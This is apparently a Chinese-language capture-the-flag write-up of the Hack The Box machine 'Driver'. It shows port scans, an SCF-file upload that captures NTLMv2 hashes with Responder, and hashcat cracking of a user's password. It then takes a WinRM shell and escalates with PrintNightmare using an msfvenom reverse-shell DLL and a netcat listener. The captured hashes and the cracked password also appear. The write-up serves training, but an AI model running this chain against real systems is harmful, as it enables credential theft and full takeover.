

## 端口扫描
```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap --min-rate 4444 -p- 10.10.11.106 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-16 01:29 EDT
Nmap scan report for 10.10.11.106
Host is up (0.23s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc                                                         
445/tcp  open  microsoft-ds                                                  
                                                      
```                         

```bash
┌──(kali㉿kali)-[~/workspace/driver]
└─$ sudo nmap -sT -sCV -p80,135,445,5985 10.10.11.106
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-16 01:57 EDT
Nmap scan report for 10.10.11.106
Host is up (0.16s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-16T12:49:52
|_  start_date: 2024-07-16T12:19:56
|_clock-skew: mean: 6h52m06s, deviation: 0s, median: 6h52m06s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.05 seconds

```

## web渗透
### 80端口渗透
这里登录进来有个弱口令，admin/admin

这里有个文件上传口，但是上传php文件也无法找到文件
其它功能点没有

此时要补充内网认证机制的知识，smb相关的认证。非域环境下，一般是ntlm加密。这套加密体系，早期叫做LM (LAN Manager)，安全性非常低，由于它使用简单的哈希算法（不包含盐值），并将密码分割成7个字符的块后再分别哈希，使其极易被暴力破解。再之后是NTLMv1，比LM有更好的安全性，但仍可被较容易地破解，特别是当攻击者能够捕获到网络中的认证流量时。当前广泛使用的版本是NTLMv2，它进一步增强了安全性，通过引入客户端和服务器的挑战响应，以及在哈希过程中使用HMAC-MD5，这使得它比前两者更难被破解。但是在弱密码的情况下依然可以破解。

内网协议：内网中可以用dns解析主机名到ip，但内网并不一定一直有dns，一般内网中在没有dns的时候，解析协议就会降级，降为NBT-NS (NetBIOS Name Service) 和 LLMNR (Link-Local Multicast Name Resolution) 这种广播的协议，smb就是用这种降级协议的。

SMB（Server Message Block）是一种在网络上用于文件共享、打印服务和其他网络通信的应用层协议。最初由IBM开发并由Microsoft进一步扩展，SMB协议使计算机能够在局域网（LAN）中访问文件、打印机、串行端口和通信。随着技术的发展，SMB协议经历了多次重要的更新，包括SMB 1.0、SMB 2.0、SMB 2.1、SMB 3.0和最新的SMB 3.1.1。每个版本都在性能、效率和安全性方面进行了改进，尤其是从SMB 2.0开始，显著增加了对大型文件的传输速度和减少了网络延迟。SMB协议支持多种认证方法，主要的包括NTLM（NT LAN Manager）和Kerberos。NTLM是一种挑战/响应认证协议，广泛用于没有Active Directory的环境。它通过不直接在网络中传输用户的密码，而是使用密码的散列值来完成认证，提供了基本的安全保障。而在Active Directory环境中，Kerberos成为首选的认证方法。

### smb共享scf文件攻击

攻击过程
```bash
攻击者在SMB共享中放置一个特制的SCF（Shell Command File）文件。
SCF文件中的IconFile字段被设置为攻击者控制的服务器地址，通常是一个UNC路径，如：
IconFile=\\attacker-ip\share\icon.ico

当受害者访问包含这个SCF文件的共享文件夹时，Windows会尝试加载图标。
由于图标路径指向攻击者的服务器，Windows会尝试连接该服务器。
这个连接尝试会触发Windows的认证机制，发送NTLM认证请求。
攻击者的服务器可以捕获这个NTLM认证请求，其中包含了用户的加密凭据。
攻击者可以尝试离线破解这些凭据，或者在某些情况下进行中继攻击。
```

写一个能执行命令的scf文件
```bash
[Shell]
Command=2
IconFile=explorer.exe,1
[Taskbar]
Command=Explorer
```

上传该文件
将IconFile改为攻击机的地址
此时启动responder进行mitm劫持

```bash
┌──(kali㉿kali)-[~/workspace/driver]
└─$ sudo responder -I tun0 -v
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0
```

得到如上结果，此时将结果保存
```bash                                                                  
┌──(kali㉿kali)-[~/workspace/driver]
└─$ grep -o "tony::.*" tony|tee tony.txt        
tony::DRIVER:0f1340934bcfd770:9A0640056C57BE2B67FB85921C9CE579:01010000000000008033B51159D7DA016B09EE3D6A829A210000000002000800480033003400530001001E00570049004E002D00570058004100320042003600520033004A004F00480004003400570049004E002D00570058004100320042003600520033004A004F0048002E0048003300340053002E004C004F00430041004C000300140048003300340053002E004C004F00430041004C000500140048003300340053002E004C004F00430041004C00070008008033B51159D7DA0106000400020000000800300030000000000000000000000000200000C11CCD2B289248EBA380C0191D74FF527451DB4DED8ACECFD97A0E9CB8AC6B340A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003900000000000000000000000000                                 
tony::DRIVER:297d10102b7b42cf:13F6A476DEB4667CD2E5E53E3874932A:01010000000000008033B51159D7DA01994CA7A57D982DEF0000000002000800480033003400530001001E00570049004E002D00570058004100320042003600520033004A004F00480004003400570049004E002D00570058004100320042003600520033004A004F0048002E0048003300340053002E004C004F00430041004C000300140048003300340053002E004C004F00430041004C000500140048003300340053002E004C004F00430041004C00070008008033B51159D7DA0106000400020000000800300030000000000000000000000000200000C11CCD2B289248EBA380C0191D74FF527451DB4DED8ACECFD97A0E9CB8AC6B340A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003900000000000000000000000000                                 
tony::DRIVER:093760c699ed2c77:B4E5391D7335E1E28E54514431BC4997:01010000000000008033B51159D7DA01DC65662ADCE1E7630000000002000800480033003400530001001E00570049004E002D00570058004100320042003600520033004A004F00480004003400570049004E002D00570058004100320042003600520033004A004F0048002E0048003300340053002E004C004F00430041004C000300140048003300340053002E004C004F00430041004C000500140048003300340053002E004C004F00430041004C00070008008033B51159D7DA0106000400020000000800300030000000000000000000000000200000C11CCD2B289248EBA380C0191D74FF527451DB4DED8ACECFD97A0E9CB8AC6B340A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003900000000000000000000000000                                 
tony::DRIVER:69f7bba617552bd7:6FEC7E483CC0D48FCAF83FBAAA2E2290:01010000000000008033B51159D7DA01BDD6CAC2B329D9D20000000002000800480033003400530001001E00570049004E002D00570058004100320042003600520033004A004F00480004003400570049004E002D00570058004100320042003600520033004A004F0048002E0048003300340053002E004C004F00430041004C000300140048003300340053002E004C004F00430041004C000500140048003300340053002E004C004F00430041004C00070008008033B51159D7DA0106000400020000000800300030000000000000000000000000200000C11CCD2B289248EBA380C0191D74FF527451DB4DED8ACECFD97A0E9CB8AC6B340A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003900000000000000000000000000                                 
tony::DRIVER:14af429e5e6070d0:11BB9F7D7D8CD6A5C556B62A82DE7EDA:01010000000000008033B51159D7DA013595F5FB30C967790000000002000800480033003400530001001E00570049004E002D00570058004100320042003600520033004A004F00480004003400570049004E002D00570058004100320042003600520033004A004F0048002E0048003300340053002E004C004F00430041004C000300140048003300340053002E004C004F00430041004C000500140048003300340053002E004C004F00430041004C00070008008033B51159D7DA0106000400020000000800300030000000000000000000000000200000C11CCD2B289248EBA380C0191D74FF527451DB4DED8ACECFD97A0E9CB8AC6B340A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003900000000000000000000000000                                 
tony::DRIVER:b17b1863cc7603b4:2944EDA74C9532FC009233F770A9569D:01010000000000008033B51159D7DA0103DA156B41FA32A10000000002000800480033003400530001001E00570049004E002D00570058004100320042003600520033004A004F00480004003400570049004E002D00570058004100320042003600520033004A004F0048002E0048003300340053002E004C004F00430041004C000300140048003300340053002E004C004F00430041004C000500140048003300340053002E004C004F00430041004C00070008008033B51159D7DA0106000400020000000800300030000000000000000000000000200000C11CCD2B289248EBA380C0191D74FF527451DB4DED8ACECFD97A0E9CB8AC6B340A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003900000000000000000000000000                                 
tony::DRIVER:ab73cd717126fbe9:ACB4A1107E6F9F42338991D246FC0291:01010000000000008033B51159D7DA01625A8A6E02C3803C0000000002000800480033003400530001001E00570049004E002D00570058004100320042003600520033004A004F00480004003400570049004E002D00570058004100320042003600520033004A004F0048002E0048003300340053002E004C004F00430041004C000300140048003300340053002E004C004F00430041004C000500140048003300340053002E004C004F00430041004C00070008008033B51159D7DA0106000400020000000800300030000000000000000000000000200000C11CCD2B289248EBA380C0191D74FF527451DB4DED8ACECFD97A0E9CB8AC6B340A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003900000000000000000000000000                                 
tony::DRIVER:09b93ef9f1acae0c:D22265DC7614679C48774A55C9730F38:01010000000000008033B51159D7DA01266820C5C19E35FC0000000002000800480033003400530001001E00570049004E002D00570058004100320042003600520033004A004F00480004003400570049004E002D00570058004100320042003600520033004A004F0048002E0048003300340053002E004C004F00430041004C000300140048003300340053002E004C004F00430041004C000500140048003300340053002E004C004F00430041004C00070008008033B51159D7DA0106000400020000000800300030000000000000000000000000200000C11CCD2B289248EBA380C0191D74FF527451DB4DED8ACECFD97A0E9CB8AC6B340A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003900000000000000000000000000                                 
tony::DRIVER:ea1950ad045ca2b8:AE54A613E7E25E63B70FAF50DEDA35A4:01010000000000008033B51159D7DA012CCC7B57F04728D30000000002000800480033003400530001001E00570049004E002D00570058004100320042003600520033004A004F00480004003400570049004E002D00570058004100320042003600520033004A004F0048002E0048003300340053002E004C004F00430041004C000300140048003300340053002E004C004F00430041004C000500140048003300340053002E004C004F00430041004C00070008008033B51159D7DA0106000400020000000800300030000000000000000000000000200000C11CCD2B289248EBA380C0191D74FF527451DB4DED8ACECFD97A0E9CB8AC6B340A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003900000000000000000000000000         
```
这段就是得到的ntlm认证的hash值，利用hashcat解一下
这里要将每行的空格去除，不然会造成格式不对hashcat识别不了
```bash
sed -i 's/ //g' tony.txt
```

```bash
──(kali㉿kali)-[~/workspace/driver]
└─$ hashcat -m 5600 tony.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 5 5600H with Radeon Graphics, 4920/9904 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 9 digests; 9 unique digests, 9 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

TONY::DRIVER:09b93ef9f1acae0c:d22265dc7614679c48774a55c9730f38:01010000000000008033b51159d7da01266820c5c19e35fc0000000002000800480033003400530001001e00570049004e002d00570058004100320042003600520033004a004f00480004003400570049004e002d00570058004100320042003600520033004a004f0048002e0048003300340053002e004c004f00430041004c000300140048003300340053002e004c004f00430041004c000500140048003300340053002e004c004f00430041004c00070008008033b51159d7da0106000400020000000800300030000000000000000000000000200000c11ccd2b289248eba380c0191d74ff527451db4ded8acecfd97a0e9cb8ac6b340a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003900000000000000000000000000:liltony
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: tony.txt
Time.Started.....: Tue Jul 16 09:12:36 2024 (0 secs)
Time.Estimated...: Tue Jul 16 09:12:36 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   751.3 kH/s (2.46ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 9/9 (100.00%) Digests (total), 9/9 (100.00%) Digests (new), 9/9 (100.00%) Salts
Progress.........: 294912/129099465 (0.23%)
Rejected.........: 0/294912 (0.00%)
Restore.Point....: 28672/14344385 (0.20%)
Restore.Sub.#1...: Salt:8 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: softball27 -> eatme1
Hardware.Mon.#1..: Util: 44%

```
得到账号/密码：TONY/liltony

## shell

5985/tcp open  wsman 
通过WinRM服务及账号密码，可以得到一个shell
nxc 密码爆破
```bash
┌──(kali㉿kali)-[~/workspace/driver]
└─$ nxc winrm 10.10.11.106 -u tony -p liltony
WINRM       10.10.11.106    5985   DRIVER           [*] Windows 10 Build 10240 (name:DRIVER) (domain:DRIVER)
WINRM       10.10.11.106    5985   DRIVER           [-] DRIVER\:liltony
WINRM       10.10.11.106    5985   DRIVER           [-] DRIVER\[SMB] NTLMv2-SSP Client   : 10.10.11.106:liltony
WINRM       10.10.11.106    5985   DRIVER           [+] [SMB] NTLMv2-SSP Username : DRIVER\tony:liltony (Pwn3d!)

```

```bash
┌──(kali㉿kali)-[~/workspace/driver]
└─$ evil-winrm -i 10.10.11.106 -u tony -p liltony

                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> whoami;hostname;ipconfig;
driver\tony
DRIVER

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv6 Address. . . . . . . . . . . : dead:beef::5431:3371:5b8e:5250
   Temporary IPv6 Address. . . . . . : dead:beef::7581:a0fb:5968:eccb
   Link-local IPv6 Address . . . . . : fe80::5431:3371:5b8e:5250%5
   IPv4 Address. . . . . . . . . . . : 10.10.11.106
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:9106%5
                                       10.10.10.2

Tunnel adapter isatap.{99C52957-7ED3-4943-91B6-CD52EF4D6AFC}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . :
*Evil-WinRM* PS C:\Users\tony\Documents> 

```
这里直接能找到user.txt。同时发现权限仍然是普通权限

上传winpeas提权
```bash
Evil-WinRM* PS C:\Users\tony\Documents> upload winPEASany.exe
                                        
Info: Uploading /home/kali/LPE/winPEASany.exe to C:\Users\tony\Documents\winPEASany.exe
                                        
Data: 3183956 bytes of 3183956 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\tony\Documents> gci


    Directory: C:\Users\tony\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/16/2024   2:44 PM        2387968 winPEASany.exe
```

```powershell
将当前用户的 PowerShell 脚本执行策略设置为“Unrestricted”（不受限制）
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```
执行winpeas然后用badcat查看输出文件

找到一些驱动文件

## 提权
用nxc扫一下打印服务，发现有打印服务
```bash
┌──(kali㉿kali)-[~/workspace/driver]
└─$ sudo nxc smb 10.10.11.106 -u tony -p liltony -M spooler 
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\:liltony STATUS_LOGON_FAILURE 
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\[SMB] NTLMv2-SSP Client   : 10.10.11.106:liltony STATUS_LOGON_FAILURE 
SMB         10.10.11.106    445    DRIVER           [+] [SMB] NTLMv2-SSP Username : DRIVER\tony:liltony 
SPOOLER     10.10.11.106    445    DRIVER           Spooler service enabled
```
并且存在printnightmare漏洞
```bash
┌──(kali㉿kali)-[~/workspace/driver]
└─$ sudo nxc smb 10.10.11.106 -u tony -p liltony -M printnightmare
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\:liltony STATUS_LOGON_FAILURE 
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\[SMB] NTLMv2-SSP Client   : 10.10.11.106:liltony STATUS_LOGON_FAILURE 
SMB         10.10.11.106    445    DRIVER           [+] [SMB] NTLMv2-SSP Username : DRIVER\tony:liltony 
PRINTNIG... 10.10.11.106    445    DRIVER           Vulnerable, next step https://github.com/ly4k/PrintNightmare
```
msf生成恶意dll文件
```bash
┌──(kali㉿kali)-[~/LPE]
└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=9595 -f dll -o rev.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: rev.dll

```

攻击机开启smb服务使靶机能够调用到恶意dll文件
```bash
┌──(kali㉿kali)-[~/LPE]
└─$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```
执行exp
```bash
┌──(kali㉿kali)-[~/workspace/driver]
└─$ ./exp.py  DRIVER/tony:liltony@10.10.11.106 '\\10.10.16.9\kali\rev.dll'
[*] Connecting to ncacn_np:10.10.11.106[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.16.9\kali\rev.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...

```
成功得到administrator权限shell
```bash
┌──(kali㉿kali)-[~/workspace/driver]
└─$ sudo rlwrap nc -lvnp 9595
listening on [any] 9595 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.106] 49420
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

C:\Users\Administrator\Desktop>type root.txt
type root.txt
9f4c5aa9deea3c445757f0d4f876fd89

```